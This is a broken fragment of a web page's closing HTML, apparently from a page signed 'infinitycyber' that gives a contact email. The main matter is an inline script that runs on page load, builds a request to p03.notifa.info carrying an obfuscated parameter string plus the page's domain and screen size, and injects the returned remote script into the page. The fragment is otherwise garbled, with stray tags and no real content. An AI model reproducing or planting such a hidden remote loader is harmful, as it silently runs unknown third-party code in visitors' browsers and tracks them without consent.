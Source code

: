 </center>

<center><font color="white">contact me: infinitycyber12@gmail.com</center>

</center>

 

<script data-cfasync="false" src="/cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js"></script><script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p03.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncXAdrh8854s%2fm3xEGqXiOYnDuB6ejvuFuzGi0IW7s1RvKW7QJY56vb8zM2P8j2iC%2flCakmglJdcnuaoIJCa4dWR%2bCmon7Cjqm2WXhbQpG8im%2f6oPVHvwXIvNDB1bPPyntAYAkUOXUXX1ZsIITv8988ldsLZHlPOcpkvbiq790u%2bQvmsM%2b%2bmWwxa2HJ%2fTaqikplHkomWd3Yn6YEJRlxNge%2bxVH6qIbGjCLy5TYBQxX0VN6VNlRV3h5I%2f%2bV9pcN8Sxx3dreT55Ja1bVqEVy7txMjDWtm0uhyuobgbSc2R9SNfd72%2fA8XhrbtiSfo%2fS6fT4t7QefOEWnQjvz9efk3F4wmNQyoWz7GgFsqLkRpkT2dZDlF8%2f5tu4vz3EXezbhvC6P%2bbzlBy1L%2f679Tm4geQ4IyV0XqURbsgdb7dKZs4yo4HAQ7ZXJnuPaPOAMi0IkplZGu4fyZ73BXBMVwv8dMp9bExW9R9JIOhStxE9ikiKpzPeHUwv3ghzxnZq%2fhQG9g%2feD8QwDgFL4yhaiBX5yMpxoBvBZOTJ0J%2bCgDVTo%2f2R2FpRD%2frMcMHp4cVSQmSUE9JXbx" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></body>

</html> 

 
